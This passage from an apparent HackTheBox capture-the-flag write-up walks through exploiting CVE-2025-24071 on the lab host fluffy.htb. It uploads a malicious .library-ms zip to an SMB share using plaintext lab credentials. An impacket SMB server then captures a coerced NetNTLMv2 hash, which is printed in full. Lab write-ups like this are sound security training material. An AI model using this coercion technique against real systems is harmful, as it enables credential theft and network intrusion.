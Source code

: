 ```bash
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC01.fluffy.htb
INFO: Done in 00M 02S
```

However, the `j.fleischman` user had no weird policies or permissions.

### Upgrade notice

I went back to the upgrade notice and enumerated the CVEs looking for something to exploit. After a bit of google around I found this [blog](https://cti.monster/blog/2025/03/18/CVE-2025-24071.html) which pointed to this [PoC](https://github.com/0x6rss/CVE-2025-24071_PoC). This CVE is about windows explorer making an SMB authentication request when a file with `.library-ms` extension is extracted from a compressed file. This means that we can coerce authentication to a server we control and obtain a NetNTLM hash.

I then used the python script from the PoC to create a malicious zip file.

Then using smbclient I uploaded the malicious zip file.

```bash
$ smbclient \\\\fluffy.htb\\IT\\ -U 'j.fleischman%J0elTHEM4n1990!'
Try "help" to get a list of possible commands.
smb: \> put exploit.zip
putting file exploit.zip as \exploit.zip (9.2 kb/s) (average 9.2 kb/s)
smb: \> dir
  .                                   D        0  Thu Jul 17 22:58:51 2025
  ..                                  D        0  Thu Jul 17 22:58:51 2025
  Everything-1.4.1.1026.x64           D        0  Fri Apr 18 11:08:44 2025
  Everything-1.4.1.1026.x64.zip       A  1827464  Fri Apr 18 11:04:05 2025
  exploit.zip                         A      321  Thu Jul 17 22:58:51 2025
  KeePass-2.58                        D        0  Fri Apr 18 11:08:38 2025
  KeePass-2.58.zip                    A  3225346  Fri Apr 18 11:03:17 2025
  Upgrade_Notice.pdf                  A   169963  Sat May 17 10:31:07 2025

    5842943 blocks of size 4096. 1539995 blocks available
smb: \> 
```

I then seted up an SMB server using impacket and listened to incoming authentication requests. After a couple of minutes I got a hit.

```bash
sudo impacket-smbserver -smb2support 'hval' .
[sudo] password for kali: 
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.11.69,50694)
[*] AUTHENTICATE_MESSAGE (FLUFFY\p.agila,DC01)
[*] User DC01\p.agila authenticated successfully
[*] p.agila::FLUFFY:aaaaaaaaaaaaaaaa:601d0cdf646e94e1c1d16b1d04b8e4d3:010100000000000080b2207c45f4db0138045d21b1bb721500000000010010006c0055006f00530050007a0066004f00030010006c0055006f00530050007a0066004f00020010004e005000720072006a00710077007800040010004e005000720072006a007100770078000700080080b2207c45f4db0106000400020000000800300030000000000000000100000000200000fef6647fa1dba33515f939b9660b43d11af6c9bbaf22466fb41c7e44c553fc050a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310034002e0037000000000000000000
[*] Closing down connection (10.10.11.69,50694)
[*] Remaining connections []
```
